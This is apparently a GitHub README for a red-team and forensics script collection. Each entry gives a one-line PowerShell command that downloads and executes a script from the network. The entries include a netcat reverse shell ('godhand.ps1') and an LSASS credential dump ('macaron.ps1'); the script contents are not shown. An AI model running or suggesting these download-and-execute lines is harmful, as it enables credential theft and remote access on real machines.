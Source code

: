 # Eren Red Team
This repository contains the scripts that is created by Eren Red Team.

## bootstrap.ps1
Downloads necessary installation packages for CyberPipe and runs it, creates .vhdx file of the target.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/bootstrap.ps1')
```

## transfer.ps1
Automatically finds .vhdx file in the determined destination path and sends it to FTP server.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/transfer.ps1')
```

## cekmece.ps1
Triage tools with little automation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/cekmece.ps1') 
```

## inspedefe.ps1
String search tool inspired by Didier Stevens's PDFiD
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/inspedefe.ps1') 
```

## korktunmu.ps1
Python and PIP Installation using Chocolatey
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## olegunnar.ps1
Glue to use ole-tools
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## godhand.ps1
Simple reverse shell with netcat without no obfuscation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/godhand.ps1') 
```

## macaron.ps1
Loudest LSASS dump ever
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/macaron.ps1') 
```

## nese.ps1
Enables advanced audit policies and PowerShell logging for detailed process, authentication, and privilege monitoring
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/nese.ps1') 
```

## lumpen.ps1
Performs a scan of all running processes and scheduled tasks 
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/lumpen.ps1') 
```